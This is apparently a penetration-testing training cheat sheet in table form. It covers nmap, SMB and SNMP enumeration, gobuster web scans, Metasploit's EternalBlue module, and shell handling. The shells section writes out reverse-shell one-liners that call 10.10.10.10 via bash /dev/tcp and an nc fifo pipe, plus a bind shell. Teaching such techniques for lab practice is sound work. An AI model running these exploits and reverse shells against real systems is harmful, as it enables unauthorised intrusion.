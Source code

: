 ### Pentesting

| **Command**                                                                           | **Description**                                                       |
| ------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| **Service Scanning**                                                                  |                                                                       |
| `nmap 10.129.42.253`                                                                  | Run nmap on an IP                                                     |
| `nmap -sV -sC -p- 10.129.42.253`                                                      | Run an nmap script scan on an IP                                      |
| `locate scripts/citrix`                                                               | List various available nmap scripts                                   |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40`                                | Run an nmap script on an IP                                           |
| `netcat 10.10.10.10 22`                                                               | Grab banner of an open port                                           |
| `smbclient -N -L \\\\10.129.42.253`                                                   | List SMB Shares                                                       |
| `smbclient \\\\10.129.42.253\\users`                                                  | Connect to an SMB share                                               |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`                            | Scan SNMP on an IP                                                    |
| `onesixtyone -c dict.txt 10.129.42.254`                                               | Brute force SNMP secret string                                        |
| **Web Enumeration**                                                                   |                                                                       |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`        | Run a directory scan on a website                                     |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website                                    |
| `curl -IL https://www.inlanefreight.com`                                              | Grab website banner                                                   |
| `whatweb 10.10.10.121`                                                                | List details about the webserver/certificates                         |
| `curl 10.10.10.121/robots.txt`                                                        | List potential directories in `robots.txt`                            |
| `ctrl+U`                                                                              | View page source (in Firefox)                                         |
| **Public Exploits**                                                                   |                                                                       |
| `searchsploit openssh 7.2`                                                            | Search for public exploits for a web application                      |
| `msfconsole`                                                                          | MSF: Start the Metasploit Framework                                   |
| `search exploit eternalblue`                                                          | MSF: Search for public exploits in MSF                                |
| `use exploit/windows/smb/ms17_010_psexec`                                             | MSF: Start using an MSF module                                        |
| `show options`                                                                        | MSF: Show required options for an MSF module                          |
| `set RHOSTS 10.10.10.40`                                                              | MSF: Set a value for an MSF module option                             |
| `check`                                                                               | MSF: Test if the target server is vulnerable                          |
| `exploit`                                                                             | MSF: Run the exploit on the target server is vulnerable               |
| **Using Shells**                                                                      |                                                                       |
| `nc -lvnp 1234`                                                                       | Start a `nc` listener on a local port                                 |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                 | Send a reverse shell from the remote server                           |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f`    | Another command to send a reverse shell from the remote server        |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`         | Start a bind shell on the remote server                               |
| `nc 10.10.10.1 1234`                                                                  | Connect to a bind shell started on the remote server                  |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                      | Upgrade shell TTY (1)                                                 |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                           | Upgrade shell TTY (2)                                                 |